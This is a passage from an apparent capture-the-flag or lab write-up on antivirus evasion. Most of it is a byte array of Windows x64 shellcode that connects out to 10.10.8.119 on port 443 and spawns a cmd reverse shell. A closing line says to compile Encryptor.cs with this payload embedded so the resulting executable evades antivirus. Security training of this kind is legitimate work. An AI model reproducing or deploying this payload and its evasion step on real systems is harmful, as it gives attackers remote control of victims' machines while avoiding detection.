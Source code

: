 ```console
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x01,0xbb,0x0a,0x0a,0x08,0x77,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };
```
{: .nolineno }

Then, we can compile the Encryptor.cs (with our generated payload in) and execute the exe file that the C# script generates :

![Encryptor.cs](/images/thm/avevasionshellcode/avevasionshellcode_15.png)
_Encryptor.cs_
